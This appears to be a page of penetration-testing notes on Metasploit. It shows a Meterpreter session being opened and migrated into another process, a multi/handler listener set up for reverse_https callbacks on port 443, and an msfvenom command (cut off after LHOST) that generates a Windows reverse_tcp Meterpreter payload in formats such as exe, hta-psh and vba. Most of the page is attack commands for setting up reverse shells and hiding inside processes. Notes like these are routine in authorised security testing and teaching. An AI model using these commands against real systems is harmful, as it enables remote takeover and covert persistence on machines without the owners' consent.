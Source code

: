 Example of a meterpreter session being opened and migrating to a process:
```
msf exploit(handler) >
..Staging Native payload
Meterpreter session opened
msf exploit(handler) > sessions -l
#Find your session number
msf exploit(handler) > sessions -i [session number]
meterpreter> run post/windows/manage/migrate
#OR
meterpreter> ps
#Find the PID of the process you want to migrate to
meterpreter> migrate [PID of process]
meterpreter> background
```



Metaploit's 'multi/meterpreter/reverse_https' payload can respond to both x86 and x64 Windows callbacks:

```
# msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload multi/meterpreter/reverse_https
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > set lhost 0.0.0.0
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > run -j -z
```

This payload can respond to callbacks from other platforms as well, including python, java, android, and php. As of May 2020, it does not support Linux payloads. 

References:
 * https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/stages/multi/meterpreter.rb#L44
 * https://github.com/rapid7/metasploit-framework/issues/10363#issuecomment-408711777




The following command sequence will generate the powershell command that will open command prompt and begin the execution of the powershell code. If one wants to have just the powershell code, then the initial part of the code will need to be removed.

```
Msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_tcp LHOST
```

The above code can be further modified to omit the x86 architecture and the encoder part can be removed, but is highly suggested when working with scripts such as unicorn that are expecting a certain encoding format. Furthermore, the format can be changed to a host of different types as listed below. 

```
# msfvenom --help-formats
Executable formats
asp, aspx, aspx-exe, dll, elf, elf-so, exe, exe-only, exe-service, exe-small,
hta-psh, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
psh-cmd, vba, vba-exe, vba-psh, vbs, war
Transform formats 
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, 
powershell, ps1, py, python, raw, rb, ruby, sh,
vbapplication, vbscript
```
